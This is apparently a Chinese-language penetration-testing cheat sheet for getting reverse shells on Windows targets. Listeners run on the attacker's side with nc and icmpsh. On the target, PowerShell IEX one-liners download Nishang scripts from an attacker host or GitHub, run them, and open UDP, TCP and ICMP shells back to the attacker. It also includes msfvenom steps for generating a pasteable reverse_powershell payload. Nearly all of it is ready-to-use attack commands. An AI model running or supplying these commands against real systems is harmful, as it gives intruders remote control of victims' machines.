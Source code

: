 ### Reverse UDP shell

攻击机监听 `nc -lvup 4444`

利用上面下载的还是放在攻击机上在目标机中powershell执行以下命令

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://192.168.2.103/nishang/Shells/Invoke-PowerShellUdp.ps1');

Invoke-PowerShellUdp -Reverse -IPAddress 192.168.2.103 -port 4444
```

### Reverse TCP shell

```powershell
# 攻击者(192.168.159.134)开启监听：
nc -lvp 6666

# 目标机执行：
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com
/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.159.134 -port 6666

# 或者将nishang下载到攻击者本地：
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.159.134 -port 6666
```

### Reverse ICMP shell

```powershell
# 首先攻击端下载icmpsh_m.py文件
https://github.com/inquisb/icmpsh)和nishang中的Invoke-PowerShellIcmp.ps1

# 攻击者(192.168.159.134)执行
sysctl -w net.ipv4.icmp_echo_ignore_all=1 #忽略所有icmp包
python icmpsh_m.py 192.168.159.134 192.168.159.138 #开启监听

# 目标机(192.168.159.138)执行
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellIcmp.ps1');Invoke-PowerShellIcmp -IPAddress 192.168.159.134
```

### MSF

我们直接可以使用 msfvenom -l 结合关键字过滤（如cmd/windows/reverse），找出我们需要的各类反弹一句话payload的路径信息

```
msfvenom -l payloads | grep 'cmd/windows/reverse'   # 攻击机查找攻击payload
```

依照前面查找出的命令生成一句话payload路径，我们使用如下的命令生成反弹一句话，然后复制粘贴到靶机上运行即可

```shell
msfvenom -p cmd/windows/reverse_powershell LHOST=192.168.2.103 LPORT=4444  #  生成payload,并将生成内容复制粘贴到目标主机运行
```
